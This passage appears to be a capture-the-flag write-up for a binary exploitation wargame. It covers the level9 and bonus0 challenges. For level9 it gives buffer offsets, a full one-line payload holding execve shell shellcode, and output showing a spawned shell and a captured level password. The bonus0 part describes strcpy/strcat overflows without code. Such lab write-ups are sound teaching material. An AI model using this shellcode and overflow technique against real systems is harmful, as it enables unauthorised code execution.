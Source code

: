 or

- `auth ` then `service 0123456789abcdef`, the offset of `auth+8` is not equal to 0, and a shell appears.

# level9
## Type of exploit

Shellcode injection + exploit vulnerable function `memcpy()`

## Details of level9

C++ binary.

We need to dig inside the assembler to understand what's going on.

The most notable information are:
1. `memcpy()` is used inside a method
2. It returns in `eax` a function address that is then used for a call (`*f()`)
3. the buffer offset is `104`
4. `eax` address is `0x804a00c`
5. address of shellcode is `0x804a00c` + `0x4` == `0x804a010`
6. Payload must have a length: `104` (buffer size) + `4` (buffer address) + `4` (overwritten address) = `112` of payload length

```shell-session
./level9 $(python -c "print '\x10\xa0\x04\x08' + '\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'B' * 80 + '\x0c\xa0\x04\x08'")
#                           |address-in-eax+4| + |------------------------------------------------------------------------------------------------| + |padding|+ |-address-in-eax-|
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

# bonus0
## Type of exploit

Use of vulnerable functions `strcat`, `strcpy `and `strncpy` to Buffer overflow + env variable shellcode execution 

## Details of bonus0

Functions are : `main` calls `pp` calls `p`.

The `main` function declares a `buffer[54]` and calls a custom function `pp(buffer)` then prints the contents of the buffer.

`pp` calls faulty functions `strcpy` and `strcat` after calling `p`  with `buffer1[20]` and `buffer2[20]`. They are faulty because they look for `\0` to stop writing which will be absent in both buffers after careful tailoring of input.
